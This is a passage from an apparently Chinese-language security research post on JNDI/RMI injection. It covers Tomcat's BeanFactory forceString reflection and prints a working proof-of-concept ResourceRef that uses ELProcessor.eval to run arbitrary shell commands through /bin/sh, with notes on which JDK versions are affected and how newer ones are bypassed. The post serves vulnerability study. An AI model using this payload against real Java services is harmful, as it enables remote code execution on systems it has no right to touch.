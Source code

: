 ```
                 InvocationTargetException ex) `{`
            throw new NamingException
                ("Forced String setter " + method.getName() +
                 " threw exception for property " + propName);
        `}`
        continue;
    `}`
```

`ref.getAll`获取了所有的RefAddr，对于非`Constants.FACTORY/scope/auth/forceString/singleton`且前文又获取相应的Method对象时，我们将调用该对象，其函数参数为此时RefAddr的内容。比如存在一个RefAddr的type为`test`，将调用前面的`eval`的Method对象。

到这里，我们就完成了一次反射调用，来看看poc

```
// payload from kingx
ResourceRef ref = new ResourceRef(
    "javax.el.ELProcessor",// bean class
    null, "", "",
    true,"org.apache.naming.factory.BeanFactory",// factory class
    null);

ref.add(new StringRefAddr("forceString", "KINGX=eval"));// eval函数Method对象将会被调用
ref.add(new StringRefAddr("KINGX",
    """.getClass().forName("javax.script.ScriptEngineManager")" +
        ".newInstance().getEngineByName("JavaScript")" +
        ".eval("new java.lang.ProcessBuilder['(java.lang.String[])'](" +
        "['/bin/sh','-c','"+ command +"'])" +
        ".start()")"));// eval函数的参数为上述执行命令的el语句
```



## 0x05 总结

前面对JNDI with RMI做了一些简单的介绍，当遇到可控的JNDI lookup函数，我们可以发起JNDI链接到RMI服务上，利用JNDI Naming Manager的远程codebase加载机制载入任意的bytecodes。

当然，前面的利用方式仅在JDK8u113、JDK6u132,、JDK7u122版本之前，如果遇到了高版本的JDK，我们可以尝试利用本地CLASSPATH中可利用的反序列化利用链，或者是tomcat环境下的可利用的ObjectFactory。

在后续可利用的本地Factory这个思路上，原文作者kingx提出或许其他的中间件环境也可能存在这种可利用的ObjectFactory，这里立个flag，以后有空了一定要找找XD
